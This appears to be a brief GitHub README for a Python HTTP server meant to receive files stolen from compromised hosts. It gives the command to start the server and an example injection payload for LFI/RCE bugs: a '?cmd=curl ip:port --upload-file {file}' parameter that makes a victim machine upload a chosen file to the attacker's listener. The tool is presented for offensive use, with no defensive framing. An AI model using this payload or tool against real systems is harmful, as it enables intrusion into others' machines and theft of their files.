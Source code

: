 # Python-HTTP-SERVEr-exfiltrate-file
script server http python exfiltrate file

Execute Script : python server.py {port}

Exemple for use in LFI/RCE: ?cmd=curl ip:port --upload-file {file} 
